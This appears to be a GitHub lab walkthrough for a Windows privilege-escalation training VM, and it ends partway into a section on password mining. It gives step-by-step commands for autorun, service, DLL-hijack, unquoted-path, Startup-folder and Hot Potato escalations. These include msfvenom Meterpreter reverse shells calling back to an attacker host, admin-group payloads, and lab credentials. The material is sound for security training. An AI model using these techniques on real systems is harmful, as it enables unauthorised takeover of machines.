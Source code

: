 # Windows PrivEsc Arena


<img width="1902" height="361" alt="image" src="https://github.com/user-attachments/assets/96706b9f-7faa-4ad5-8d3f-965cd8c67d44" />

---

>[!important]
> ### Let's first connect to the machine.  RDP is open on port 3389.  Your credentials are:
> #### **`username`** : user
> #### **`password`** : password321
>
> ### `For any administrative actions you might take, your credentials are:`
> #### **`username`** : TCM
> #### **`password`** : Hacker123
>

---

>[!warning]
> ### Connect To Target
> ```ruby
> xfreerdp3 /u:user /p:password321 /v:10.10.71.148 /cert:ignore /sec:rdp
> ```
> **`Or`**
>
>```ruby
> rdesktop 10.10.103.25 -u user -p password321
>```

---

<details>
  <summary>Registry Escalation</summary>





- <details>
      <summary>Autorun</summary>




  
  Windows Privilege Escalation: Insecure Autorun Permissions
  ==========================================================
  
  This guide demonstrates a privilege escalation technique by exploiting an executable in an autorun location that has insecure file permissions. The goal is to replace the legitimate program with a malicious payload, which will be executed with higher privileges when an administrator logs in.
  
  🕵️‍♂️ Detection
  ----------------
  
  First, we need to identify the vulnerable autorun program and confirm its weak permissions.
  
  1.  Scan for Autorun Programs
  
      Open a command prompt on the Windows VM and run Autoruns to inspect programs that launch on startup.
  
      
  
      ```DOS
      C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
  
      ```
  
  2.  Inspect Logon Items
  
      In the Autoruns window, click on the Logon tab to see all applications that run when a user logs in.
  
  3.  Identify the Target Program
  
      From the list, notice the "My Program" entry. Observe that it points to the following executable:
  
      ```
      C:\Program Files\Autorun Program\program.exe
  
      ```

      <img width="819" height="209" alt="image" src="https://github.com/user-attachments/assets/08b8581f-0b3a-4cc6-9c0a-8986e8ad13da" />


  4.  Check File Permissions
  
      Return to the command prompt and use accesschk64.exe to check the permissions on the program's directory.
  
      
  
      ```DOS
      C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
  
      ```

      <img width="647" height="263" alt="image" src="https://github.com/user-attachments/assets/d20be315-7309-4288-9cb4-ec06353ce661" />


  5.  Confirm the Vulnerability
  
      The output will show that the Everyone user group has ``FILE_ALL_ACCESS`` permission. This is the vulnerability, as it means any user can modify or replace the program.exe file.
  
  💥 Exploitation
  ---------------
  
  The exploitation process involves creating a malicious payload, setting up a listener to receive the connection, and replacing the original executable.
  
  ### 1\. Setting Up the Listener & Payload (Kali VM)
  
  First, we will use the Metasploit Framework to create a reverse shell payload and a listener to catch the connection.
  
  1.  **Start Metasploit**
  
      
  
      ```Bash
      msfconsole
  
      ```
  
  2.  Configure the Multi/Handler
  
      This module will listen for the incoming connection from our payload.
  
      
  
      ```Ruby
      msf6 > use multi/handler
      msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
      msf6 exploit(multi/handler) > set lhost <Your Kali VM IP Address>
  
      ```


  3.  Start the Listener
  
      The listener will now wait for a connection.
  
      
  
      ```Ruby
      msf6 exploit(multi/handler) > run
  
      ```

      <img width="863" height="492" alt="image" src="https://github.com/user-attachments/assets/d70396ea-063a-465c-99a1-8d1fa4efc54e" />

  
  4.  Generate the Malicious Payload
  
      Open a new terminal window on your Kali VM. Use msfvenom to create a malicious program.exe that will connect back to your listener.
  
      
  
      ```Bash
      msfvenom -p windows/meterpreter/reverse_tcp lhost=<Your Kali VM IP Address> -f exe -o program.exe
  
      ```

     <img width="929" height="337" alt="image" src="https://github.com/user-attachments/assets/d4d93941-457d-46a8-8a3f-07f1eca288fe" />

  
  5.  Transfer the Payload
  
      Copy the newly generated program.exe file from your Kali VM to the Windows VM's desktop.

      <img width="1543" height="609" alt="image" src="https://github.com/user-attachments/assets/5daebdf6-0778-4aca-8596-96e866c26c38" />


  ### 2\. Planting the Payload (Windows VM)
  
  1.  On the Windows VM, replace the original program with your malicious payload. You can do this via the command line or file explorer:
  
      
  
      ```DOS
      move C:\Users\User\Desktop\program.exe "C:\Program Files\Autorun Program\program.exe"
  
      ```
  
      *(Confirm overwrite if prompted)*
  
  2.  To trigger the exploit, you must simulate the condition under which the program runs with elevated privileges. **Log off** from the current user session and then **log back on as an administrator**.
  
  ✅ Gaining Access & Verification
  -------------------------------
  
  When the administrator logs in, the malicious `program.exe` will execute and connect back to your listener on the Kali VM.
  
  1.  Catch the Session
  
      In your Metasploit terminal, you will see a new session being created.
  
      ```
      [*] Meterpreter session 1 opened (...)
  
      ```
  
  2.  Interact with the Session
  
      Enter the new session using its ID.
  
      
  
      ```Ruby
      msf6 exploit(multi/handler) > sessions -i 1
  
      ```
  
  3.  Verify Privileges
  
      To confirm that the attack was successful and you have escalated privileges, run the getuid command. The output should show that you are running as the administrator user.
  
      
  
      ```Ruby
      meterpreter > getuid
  
      ```
  





  </details>




- <details>
      <summary>AlwaysInstallElevated</summary>


  
  
  Windows Privilege Escalation: AlwaysInstallElevated
  ===================================================
  
  This guide demonstrates how to exploit the `AlwaysInstallElevated` policy in Windows to achieve privilege escalation. When this policy is enabled in both the `HKEY_LOCAL_MACHINE` (HKLM) and `HKEY_CURRENT_USER` (HKCU) registry hives, it allows any user to install MSI packages with `NT AUTHORITY\SYSTEM` privileges.
  
  🕵️‍♂️ Detection
  ----------------
  
  The first step is to query the Windows Registry to confirm that the `AlwaysInstallElevated` policy is enabled for both the system and the current user.
  
  1.  Check the Local Machine Policy (HKLM)
  
      Open a command prompt on the Windows VM and query the following registry key:
  
      
  
      ```DOS
      reg query HKLM\Software\Policies\Microsoft\Windows\Installer
  
      ```
  
      > Confirm that the `AlwaysInstallElevated` value is present and set to `0x1`.
  
  2.  Check the Current User Policy (HKCU)
  
      Next, query the key for the current user:
  
      
  
      ```DOS
      reg query HKCU\Software\Policies\Microsoft\Windows\Installer
  
      ```
  
      > Confirm that the `AlwaysInstallElevated` value is also set to `0x1`. If both keys are set to 1, the system is vulnerable.
  
  💥 Exploitation
  ---------------
  
  Now we will generate a malicious MSI package and use it to gain a privileged shell on the target machine.
  
  ### 1\. Setting Up the Listener & Payload (Kali VM)
  
  Use the Metasploit Framework on your Kali machine to create the payload and a listener to receive the connection.
  
  1.  **Start Metasploit**
  
      
  
      ```Bash
      msfconsole
  
      ```
  
  2.  Configure the Multi/Handler
  
      This module will listen for the incoming connection from our MSI payload.
  
      
  
      ```Ruby
      msf6 > use multi/handler
      msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
      msf6 exploit(multi/handler) > set lhost <Your Kali VM IP Address>
  
      ```
  
  3.  Start the Listener
  
      The listener will now wait for a connection.
  
      
  
      ```Ruby
      msf6 exploit(multi/handler) > run
  
      ```
  
  4.  Generate the Malicious MSI Payload
  
      Open a new terminal window on your Kali VM. Use msfvenom to create a malicious .msi file.
  
      
  
      ```Bash
      msfvenom -p windows/meterpreter/reverse_tcp lhost=<Your Kali VM IP Address> -f msi -o setup.msi
  
      ```
  
  5.  Transfer the Payload
  
      Copy the newly generated setup.msi file from your Kali VM to the Windows VM, placing it in a writable directory like C:\Temp.
  
  ### 2\. Executing the Payload (Windows VM)
  
  1.  On the Windows VM, open a command prompt and execute the MSI package using `msiexec`. The `/quiet` and `/qn` flags will run the installation silently in the background.
  
      
  
      ```DOS
      msiexec /quiet /qn /i C:\Temp\setup.msi
  
      ```
  
  ✅ Gaining Access
  ----------------
  
  Return to your Metasploit terminal on the Kali VM. The MSI installer will execute with `SYSTEM` privileges and connect back to your listener.
  
  1.  Catch the Privileged Shell
  
      You will see a new Meterpreter session open.
  
      ```ruby
      [*] Meterpreter session 1 opened (...)
  
      ```
  
  2.  Verify Privileges
  
      Interact with the new session and run the getuid command to confirm your identity.
  
      
  
      ```Ruby
      msf6 exploit(multi/handler) > sessions -i 1
      meterpreter > getuid
      Server username: NT AUTHORITY\SYSTEM
  
      ```
  
      You have successfully escalated to the highest privilege level on the system.
  
  



  </details>





  
</details>













<details>
  <summary>Service Escalation</summary>






- <details>
      <summary>Registry</summary>





  
  Windows Privilege Escalation: Insecure Service Registry Permissions
  ===================================================================
  
  This guide demonstrates a privilege escalation technique by exploiting a Windows service with weak permissions on its associated registry key. If a user has `FullControl` over a service's registry entry, they can modify its configuration---such as the executable it runs (`ImagePath`)---to execute arbitrary code with the service's privileges, which are often `NT AUTHORITY\SYSTEM`.
  
  🕵️‍♂️ Detection
  ----------------
  
  First, we must identify that a low-privileged user has modification rights over a service's registry key.
  
  1.  Check Registry Key Permissions
  
      Open a PowerShell prompt on the Windows VM and use Get-Acl to inspect the permissions for the target service's registry key (regsvc).
  
      
  
      ```PowerShell
      Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
  
      ```

     <img width="994" height="270" alt="image" src="https://github.com/user-attachments/assets/5f376f33-75df-4868-a440-f9afb2c52cb2" />



  2.  Identify the Vulnerability
  
      In the output, examine the Access list. Notice that the NT AUTHORITY\INTERACTIVE group has FullControl permission. This is the vulnerability. The INTERACTIVE group includes any user who is logged on locally, meaning our low-privileged user can modify this key.
  
  💥 Exploitation
  ---------------
  
  The exploitation process involves creating a custom executable, modifying the vulnerable service to run it, and then starting the service to trigger our payload.
  
  ### 1\. Preparing the Payload (Kali VM)
  
  We will compile a simple C program that adds our user to the local administrators group.
  
  1.  Transfer the Source Code
  
      First, copy the source file windows_service.c from the Windows VM (C:\Users\User\Desktop\Tools\Source\) to your Kali VM.

      <img width="1305" height="253" alt="image" src="https://github.com/user-attachments/assets/e000b2bd-8f58-4ec3-8a64-befdd41c2085" />

     
  2.  Modify the Payload Command
  
      Open windows_service.c on Kali with a text editor. Find the line containing the system() function and change its command to the following, which will add a user named user to the local administrators group.
  
      
  
      ```C
      system("cmd.exe /k net localgroup administrators user /add");
  
      ```

      <img width="703" height="576" alt="image" src="https://github.com/user-attachments/assets/4d1f4a4e-f154-4199-8c1f-f6c9fd99019d" />


  
  3.  Cross-Compile the Executable
  
      Save the file and compile it for Windows using the mingw-w64 compiler. If you don't have it, install it first with `sudo apt update && sudo apt install gcc-mingw-w64`.
  
      
  
      ```Bash
      x86_64-w64-mingw32-gcc windows_service.c -o x.exe
  
      ```

     <img width="587" height="200" alt="image" src="https://github.com/user-attachments/assets/eca01cdf-f18e-49e8-a426-b577106694fd" />

  
  4.  Transfer the Payload Back
  
      Copy the newly compiled payload, x.exe, from your Kali VM to a writable directory on the Windows VM, such as C:\Temp.

     <img width="513" height="113" alt="image" src="https://github.com/user-attachments/assets/a54a9283-0bd5-400e-a9ec-651a72a6c76c" />


  ### 2\. Modifying and Triggering the Service (Windows VM)
  
  Now, we will reconfigure the service to point to our new executable and then start it.
  
  1.  Change the Service's Binary Path
  
      On the Windows VM, open a command prompt and run the reg add command to modify the ImagePath for the regsvc service. This tells the service to run our payload instead of its original program.
  
      
  
      ```DOS
      reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
  
      ```

     <img width="648" height="127" alt="image" src="https://github.com/user-attachments/assets/8a2610a0-b3df-448f-bbea-8bf1eabcd0d6" />


  2.  Start the Service to Trigger the Exploit
  
      Now, start the service. Windows will execute c:\temp\x.exe with the service's LocalSystem privileges.
  
      
  
      ```DOS
      sc start regsvc
  
      ```

     <img width="659" height="166" alt="image" src="https://github.com/user-attachments/assets/f523d731-d60c-4996-8164-7b6f566e29c9" />

   
      The command in our payload will now execute, adding the `user` to the administrators group.
  
  ✅ Verification
  --------------
  
  To confirm that the privilege escalation was successful, check the membership of the local administrators group.
  
  1.  Check Administrators Group
  
      In the same command prompt, type:
  
      
  
      ```DOS
      net localgroup administrators
  
      ```
  
      You will now see the `user` account listed as a member, confirming that you have successfully escalated privileges.
  
  
      **`before`**

     <img width="651" height="166" alt="image" src="https://github.com/user-attachments/assets/095264d1-ad26-478e-b106-7b2e2e013f15" />


     **`after`**

     <img width="652" height="213" alt="image" src="https://github.com/user-attachments/assets/328a56ef-cd33-412a-94d0-c49ce3b4e6fe" />



  </details>


- <details>
      <summary>Executable Files</summary>




  
  
  Windows Privilege Escalation: Insecure Service File Permissions
  ===============================================================
  
  This guide demonstrates a privilege escalation technique by exploiting a Windows service whose executable has weak file permissions. If a low-privileged user can overwrite the service's executable, they can replace it with a malicious payload. When the service is next started, the payload will execute with the high privileges of the service account, typically `NT AUTHORITY\SYSTEM`.
  
  🕵️‍♂️ Detection
  ----------------
  
  First, we need to identify a service executable with insecure permissions that allows a standard user to modify or replace it.
  
  1.  Check File Permissions
  
      Open a command prompt on the Windows VM and use accesschk64.exe to inspect the permissions for the target service executable (filepermservice.exe).
  
      
  
      ```DOS
      C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
  
      ```
  
  2.  Identify the Vulnerability
  
      The output indicates that the Everyone user group has FILE_ALL_ACCESS permission on the filepermservice.exe file. This is a critical misconfiguration, as it means any user on the system can replace this executable.
  
  ⚙️ Prerequisite: Creating the Payload
  -------------------------------------
  
  Before we can exploit this, we need to create a malicious executable (`x.exe`) that will perform our privileged action. We will use `msfvenom` on a Kali VM for this.
  
  1.  Generate the Payload
  
      On your Kali machine, run the following command to generate an executable that adds a standard user named user to the local administrators group.
  
      
  
      ```Bash
      msfvenom -p windows/exec CMD="net localgroup administrators user /add" -f exe -o x.exe
  
      ```
  
  2.  Transfer the Payload
  
      Copy the newly generated x.exe from your Kali machine to a writable directory on the Windows VM, such as C:\Temp.
  
  💥 Exploitation
  ---------------
  
  With the payload ready, we can now overwrite the original service executable and start the service to trigger our exploit.
  
  1.  Overwrite the Service Executable
  
      On the Windows VM, open a command prompt and use the copy command to replace the legitimate service executable with our malicious payload. The /y flag suppresses the overwrite confirmation prompt.
  
      
  
      ```DOS
      copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
  
      ```
  
  2.  Start the Service to Trigger the Exploit
  
      Now, start the service. Windows will execute our malicious payload with LocalSystem privileges.
  
      
  
      ```DOS
      sc start filepermsvc
  
      ```
  
      The command embedded in our payload will now run, adding the `user` to the local administrators group.
  
  ✅ Verification
  --------------
  
  To confirm that the privilege escalation was successful, check the membership of the local administrators group.
  
  1.  Check Administrators Group
  
      In the same command prompt, type:
  
      
  
      ```DOS
      net localgroup administrators
  
      ```
  
      You will now see the `user` account listed as a member of the group, confirming that you have successfully escalated privileges on the system.
  
  
  





  </details>


- <details>
      <summary> DLL Hijacking</summary>





  
  
  Windows Privilege Escalation: DLL Hijacking
  ===========================================
  
  This guide demonstrates a privilege escalation technique known as **DLL Hijacking**. This vulnerability occurs when a legitimate, high-privilege application attempts to load a Dynamic Link Library (DLL) from an insecure path. By placing a malicious DLL with the correct name in a user-writable directory that the application searches, an attacker can force the application to execute their code with elevated privileges.
  
  🕵️‍♂️ Detection
  ----------------
  
  We will use Process Monitor (`Procmon`) to observe a service's behavior and find a hijackable DLL path.
  
  1.  Launch Process Monitor
  
      On the Windows VM, navigate to C:\Users\User\Desktop\Tools\Process Monitor and run Procmon.exe as an administrator.
  
  2.  Set Up the First Filter (Process Name)
  
      We need to filter the events to only show activity from our target service.
  
      -   Go to `Filter > Filter...` (or press `Ctrl+L`).
  
      -   Create a rule that reads: **`Process Name` `is` `dllhijackservice.exe` `then` `Include`**.
  
      -   Click **Add**, then **Apply**.
  
  <img width="969" height="612" alt="image" src="https://github.com/user-attachments/assets/6a8e2778-9178-4a24-bdc9-4e84deb5a858" />
  
  
  
  3.  Set Up the Second Filter (Result)
  
      Next, we only want to see attempts to load files that were not successful.
  
      -   Create a second rule that reads: **`Result` `is` `NAME NOT FOUND` `then` `Include`**.
  
      -   Click **Add**, then **Apply**, and **OK**.
  
  
  <img width="842" height="466" alt="image" src="https://github.com/user-attachments/assets/05e1529a-34d6-42a2-a81c-5b7367207d7d" />
  
  
  4.  Trigger the Service
  
      Open a command prompt and start the vulnerable service to generate events in Procmon.
  
      DOS
  
      ```
      sc start dllsvc
  
      ```
  
  <img width="944" height="699" alt="image" src="https://github.com/user-attachments/assets/b15c6de7-6b51-4b83-af99-ff440e3aaf75" />
  
  
  
  5.  Analyze the Results
  
      Go back to the Process Monitor window. You will see several NAME NOT FOUND results. The key finding is an attempt to load a DLL from a user-writable directory.
  
      > The output will show that the service tried to load `hijackme.dll` from `C:\Temp`, but the operation failed because the file doesn't exist. Since `C:\Temp` is a writable location, this is our hijacking opportunity.
  
  💥 Exploitation
  ---------------
  
  Now we will create a malicious DLL, place it in the vulnerable path, and restart the service to execute our code.
  
  ### 1\. Preparing the Malicious DLL (Kali VM)
  
  1.  Transfer the Source Code
  
      Copy the source file C:\Users\User\Desktop\Tools\Source\windows_dll.c from the Windows VM to your Kali machine.
  
  <img width="1208" height="476" alt="image" src="https://github.com/user-attachments/assets/9596730f-855b-4d47-aefd-b90baea6c6b3" />
  
  
  
  2.  Modify the Payload
  
      Open windows_dll.c on Kali. Modify the system() function to execute a command that adds your user (user) to the local administrators group.
  
      C
  
      ```
      system("cmd.exe /k net localgroup administrators user /add");
  
      ```
  
  <img width="767" height="368" alt="image" src="https://github.com/user-attachments/assets/7a3372cf-2628-4177-bff2-a83f724591dc" />
  
      
  
  3.  Compile the Malicious DLL
  
      Save the file and use the mingw-w64 cross-compiler to create the DLL. The -shared flag is essential for compiling a DLL file.
  
      Bash
  
      ```
      x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll
  
      ```
  
  <img width="686" height="228" alt="image" src="https://github.com/user-attachments/assets/e584f743-26c1-427f-9cbe-6cc0b30eb722" />
  
      
  
  4.  Transfer the DLL Back
  
      Copy the compiled hijackme.dll from your Kali VM to the C:\Temp directory on the Windows VM.
  
  <img width="950" height="218" alt="image" src="https://github.com/user-attachments/assets/1547550e-54a2-4f32-8e8c-25010fd84fdd" />
  
  
  ### 2\. Planting and Triggering the DLL (Windows VM)
  
  1.  With `hijackme.dll` now in `C:\Temp`, the service will find and load it upon startup. Open a command prompt and restart the service to trigger the exploit.
  
      DOS
  
      ```
      sc stop dllsvc & sc start dllsvc
  
      ```
  
  <img width="653" height="456" alt="image" src="https://github.com/user-attachments/assets/535a519a-942b-4897-8ef2-428f8600f7d9" />
  
  
      When the service starts, it will load our malicious DLL and execute the embedded command with `SYSTEM` privileges.
  
  ✅ Verification
  --------------
  
  To confirm the attack was successful, check the membership of the local administrators group.
  
  1.  Check Administrators Group
  
      In the command prompt, run:
  
      DOS
  
      ```
      net localgroup administrators
  
      ```
  
      You should now see the `user` account listed as a member of the administrators group, confirming a successful privilege escalation.
  
  
  




  </details>


- <details>
      <summary>binPath</summary>






  
  
  Windows Privilege Escalation: Insecure Service Permissions (binPath)
  ====================================================================
  
  This guide demonstrates a privilege escalation technique by exploiting a Windows service where a low-privileged user has permissions to modify its configuration. If a user has the `SERVICE_CHANGE_CONFIG` permission, they can alter the service's binary path (`binPath`) to execute an arbitrary command with the privileges of the service account, which is often `NT AUTHORITY\SYSTEM`.
  
  🕵️‍♂️ Detection
  ----------------
  
  First, we need to identify a service that our user has permission to reconfigure.
  
  1.  Check Service Permissions
  
      Open a command prompt on the Windows VM and use accesschk64.exe to inspect the permissions for the target service (daclsvc).
  
      
  
      ```ruby
      C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc
  
      ```
  
  2.  Identify the Vulnerability
  
      The output will show a list of permissions. The key finding is that your current user (e.g., User-PC\User) has the SERVICE_CHANGE_CONFIG permission. This allows us to modify critical service parameters, including the path to its executable.
  
  💥 Exploitation
  ---------------
  
  Now we will reconfigure the service to execute a command of our choice instead of its intended program and then start it to trigger the exploit.
  
  1.  Modify the Service's Binary Path (binPath)
  
      In the command prompt, use the sc config command to change the binpath of the daclsvc service. We will set it to a command that adds our current user (user) to the local administrators group.
  
      
  
      ```ruby
      sc config daclsvc binpath= "net localgroup administrators user /add"
  
      ```
  
      > **Note:** The space after `binpath=` is required. Windows will execute whatever is in the `binpath` string when the service starts.
  
  2.  Start the Service to Trigger the Exploit
  
      Now, start the service. The Service Control Manager will attempt to run the "binary" we specified, executing our command with LocalSystem privileges.
  
      
  
      ```ruby
      sc start daclsvc
  
      ```
  
      You may see an error message stating the service did not respond in a timely fashion. This is expected, as our command runs and exits immediately, which is not the behavior of a normal service. The command will have already succeeded.
  
  ✅ Verification
  --------------
  
  To confirm that the privilege escalation was successful, check the membership of the local administrators group.
  
  1.  Check Administrators Group
  
      In the same command prompt, type:
  
      
  
      ```RUBY
      net localgroup administrators
  
      ```
  
      You will now see the `user` account listed as a member of the group, confirming a successful privilege escalation.
  
  




  </details>


- <details>
      <summary>Unquoted Service Paths</summary>



  
  
  
  Windows Privilege Escalation: Unquoted Service Paths
  ====================================================
  
  This guide demonstrates a privilege escalation technique by exploiting an **Unquoted Service Path**. This common misconfiguration occurs when the path to a service's executable is not enclosed in quotation marks and contains spaces.
  
  When this happens, Windows attempts to find the executable by treating each space as a delimiter. For a path like `C:\Program Files\Vulnerable Service\service.exe`, Windows will try to execute the following in order:
  
  1.  `C:\Program.exe`
  
  2.  `C:\Program Files\Vulnerable.exe`
  
  3.  `C:\Program Files\Vulnerable Service\service.exe`
  
  If an attacker can place a malicious executable in a writable directory higher up in this search order (e.g., creating `C:\Program Files\Vulnerable.exe`), they can trick the system into running their code with the service's high-level privileges.
  
  🕵️‍♂️ Detection
  ----------------
  
  First, we need to find a service with an unquoted path and confirm we have write permissions in one of the parent directories.
  
  1.  Query the Service Configuration
  
      Open a command prompt on the Windows VM and use sc qc (Query Configuration) to inspect the unquotedsvc service.
  
      
  
      ```ruby
      sc qc unquotedsvc
  
      ```
  
  2.  Identify the Unquoted Path
  
      In the output, look at the BINARY_PATH_NAME.
  
      > Notice that the path is not enclosed in quotes and contains spaces, for example: `C:\Program Files\Unquoted Path Service\unquotedpathservice.exe`. This confirms the vulnerability.
  
  3.  Check Directory Permissions
  
      Now, check if you have permission to write a file into one of the directories in the path. We will check C:\Program Files\Unquoted Path Service.
  
      
  
      ```ruby
      icacls "C:\Program Files\Unquoted Path Service"
  
      ```
  
      If the output shows that your user or a group you belong to (like `BUILTIN\Users`) has write permissions (`(W)`, `(M)`, or `(F)`), you can proceed with the exploit.
  
  💥 Exploitation
  ---------------
  
  The exploitation involves creating a malicious service executable, placing it in the vulnerable directory, and starting the service.
  
  ### 1\. Preparing the Payload (Kali VM)
  
  1.  Generate the Malicious Executable
  
      On your Kali machine, use msfvenom to create a payload. The output filename must match the part of the service path you are targeting. For C:\Program Files\Unquoted Path Service\unquotedpathservice.exe, the vulnerable file is common.exe placed inside the parent folder. We will use the -f exe-service format, which is suitable for Windows services.
  
      Bash
  
      ```ruby
      msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
  
      ```
  
  2.  Transfer the Payload
  
      Copy the newly generated common.exe file from your Kali VM to the Windows VM.
  
  ### 2\. Planting and Triggering the Exploit (Windows VM)
  
  1.  Place the Payload in the Vulnerable Path
  
      On the Windows VM, move your common.exe payload into the writable directory identified during detection.
  
      
  
      ```ruby
      move C:\Path\to\common.exe "C:\Program Files\Unquoted Path Service\"
  
      ```
  
  2.  Start the Service to Trigger the Exploit
  
      Now, start the service. When the Service Control Manager tries to launch the service, Windows will find and execute your malicious common.exe before it looks for the legitimate unquotedpathservice.exe.
  
      
  
      ```ruby
      sc start unquotedsvc
  
      ```
  
      The service may fail to start correctly, but our embedded command will have already executed with `SYSTEM` privileges.
  
  ✅ Verification
  --------------
  
  To confirm that the privilege escalation was successful, check the membership of the local administrators group.
  
  1.  Check Administrators Group
  
      In the command prompt, type:
  
      
  
      ```ruby
      net localgroup administrators
  
      ```
  
      You will now see the `user` account listed as a member of the group, confirming a successful privilege escalation.
  
  







  </details>
  
  
  
  






  
</details>
















<details>
  <summary>Privilege Escalation - Startup Applications</summary>



Windows Persistence & PrivEsc: Writable Startup Folder
======================================================

This guide demonstrates a persistence and potential privilege escalation technique by exploiting a globally writable "All Users" Startup folder. If a low-privileged user can place an executable in this folder, that program will automatically run whenever *any* user---including an administrator---logs into the system. This can be used to gain a shell with the privileges of the user who logs in next.

🕵️‍♂️ Detection
----------------

First, we need to check the permissions of the `All Users` Startup folder to see if it's writable by our current user.

1.  Check Folder Permissions

    Open a command prompt on the Windows VM and use icacls.exe to inspect the permissions for the Startup folder.

    

    ```DOS
    icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

    ```

2.  Identify the Vulnerability

    In the output, look for the permissions granted to the BUILTIN\Users group. If it shows (F) for Full Access or (M) for Modify access, the folder is writable, and the system is vulnerable to this technique.

💥 Exploitation
---------------

The exploitation process involves creating a reverse shell payload, placing it in the vulnerable Startup folder, and waiting for a privileged user to log in.

### 1\. Setting Up the Listener & Payload (Kali VM)

Use the Metasploit Framework on your Kali machine to create the payload and a listener to receive the connection.

1.  **Start Metasploit**

    

    ```Bash
    msfconsole

    ```

2.  Configure the Multi/Handler

    This module will listen for the incoming connection from our payload.

    

    ```Ruby
    msf6 > use multi/handler
    msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set lhost <Your Kali VM IP Address>

    ```

3.  Start the Listener

    The listener will now wait for a connection.

    

    ```Ruby
    msf6 exploit(multi/handler) > run

    ```

4.  Generate the Malicious Payload

    Open a new terminal window on your Kali VM. Use msfvenom to create a malicious .exe file.

    

    ```Bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your Kali VM IP Address> -f exe -o x.exe

    ```

5.  Transfer the Payload

    Copy the newly generated x.exe file from your Kali VM to a temporary location on the Windows VM (e.g., the Desktop).

### 2\. Planting the Payload (Windows VM)

1.  On the Windows VM, move your payload into the vulnerable Startup folder.

    

    ```DOS
    move C:\Users\User\Desktop\x.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\"

    ```

2.  To trigger the exploit, **log off** from the current user.

3.  Now, **log in with an administrator account**. When the administrator's desktop loads, the `x.exe` file in the Startup folder will be automatically executed.

✅ Gaining Access & Verification
-------------------------------

Return to your Metasploit terminal on the Kali VM. The payload will connect back to your listener.

1.  Catch the Session

    You will see a new Meterpreter session open. This session is running with the privileges of the administrator who just logged in.

    ```
    [*] Meterpreter session 1 opened (...)

    ```

2.  Verify Privileges

    Interact with the new session and run the getuid command to confirm the user context.

    

    ```Ruby
    meterpreter > getuid
    Server username: User-PC\Admin

    ```

    The output confirms the payload is running as the `Admin` user, successfully capturing a privileged session.



  
</details>








<details>
  <summary>Potato Escalation - Hot Potato</summary>





  
  
  
  
  
  Windows Privilege Escalation: Hot Potato (Tater)
  ================================================
  
  This guide demonstrates the "Hot Potato" privilege escalation technique using the PowerShell tool `Tater`. This attack leverages NBNS spoofing and WPAD protocol abuse to relay NTLM authentication from privileged local services (like the Windows Update service) back to the local machine. This allows an attacker with `SeImpersonatePrivilege` to impersonate the service and execute commands as `NT AUTHORITY\SYSTEM`.
  
  ⚙️ Prerequisites
  ----------------
  
  For this attack to be successful, the following conditions are typically required:
  
  -   You have a shell as a low-privileged user.
  
  -   The user account has `SeImpersonatePrivilege` or `SeAssignPrimaryTokenPrivilege` enabled. These are common for network service accounts.
  
  -   The `Tater.ps1` script has been transferred to the target Windows machine.
  
  💥 Exploitation
  ---------------
  
  The entire exploitation process can be carried out from a single PowerShell session on the target Windows VM.
  
  1.  Start a PowerShell Session
  
      First, open a PowerShell prompt with a bypassed execution policy to ensure you can run scripts.
  
      
  
      ```PowerShell
      powershell.exe -nop -ep bypass
  
      ```
  
  2.  Import the Tater Module
  
      Load the Tater.ps1 script into your current PowerShell session to make its functions available.
  
      
  
      ```PowerShell
      Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1
  
      ```
  
  3.  Invoke the Tater Exploit
  
      Execute the main function to start the attack. The tool will set up the necessary listeners, spoofers, and trigger a privileged service to authenticate to it.
  
      
  
      ```PowerShell
      Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"
  
      ```
  
      -   **`-Trigger 1`**: This option tells Tater to trigger the Windows Defender/Update service, which runs as `SYSTEM`.
  
      -   **`-Command "..."`**: This is the payload that will be executed with `SYSTEM` privileges once the NTLM relay and impersonation are successful.
  
      The tool will provide real-time output, and upon success, the command will be executed.
  
  ✅ Verification
  --------------
  
  To confirm that the privilege escalation was successful, check the membership of the local administrators group.
  
  1.  Check Administrators Group
  
      In the same PowerShell prompt, type:
  
      
  
      ```PowerShell
      net localgroup administrators
  
      ```

      <img width="1026" height="656" alt="image" src="https://github.com/user-attachments/assets/db4351a6-d3e3-42a2-8478-76290cc208c8" />

  
      You will now see the `user` account listed as a member of the group, confirming a successful privilege escalation to the highest level on the system.
  
  







  
</details>








<details>
  <summary>Password Mining Escalation</summary>





- <details>
      <summary> Configuration Files</summary>





  
  
  
  
  
  Windows Privilege Escalation: Password Mining from Configuration Files
  ======================================================================
  
  This guide demonstrates a privilege escalation technique by finding credentials stored in configuration files left over from the Windows installation process. During an unattended setup, files like `Unattend.xml` are used to automate installation, and they can contain sensitive data, including a Base64-encoded administrator password.
  
  📂 The Vulnerability: Unattend Files
  ------------------------------------
  
